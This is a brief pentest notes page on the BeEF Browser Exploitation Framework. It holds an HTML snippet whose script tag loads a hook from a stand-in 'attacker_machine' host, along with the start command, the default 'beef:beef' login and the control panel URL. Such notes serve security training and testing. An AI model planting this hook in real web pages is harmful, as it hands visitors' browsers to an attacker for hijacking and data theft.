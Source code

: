 # BeeF

## Browser Exploitation Framework

### BeeF hook

```text
<html>
    <head>
    <title>
       Hello from here 
    </title>
    </head>
    <body>
        <p>hook script for BeeF</p>
        <script src="http://attacker_machine:3000/hook.js"></script>
    </body>
</html>
```

* **Start BeeF**

`beef-xss`

* Login with

`beef:beef`

View 127.0.0.1:3000/hook.js

* **target connected:** 

![](../../.gitbook/assets/c099b585f1df47be8142ab2ded3c0695.png)

{% embed url="http://127.0.0.1:3000/ui/panel" %}

### Resource

{% embed url="https://beefproject.com/" %}





















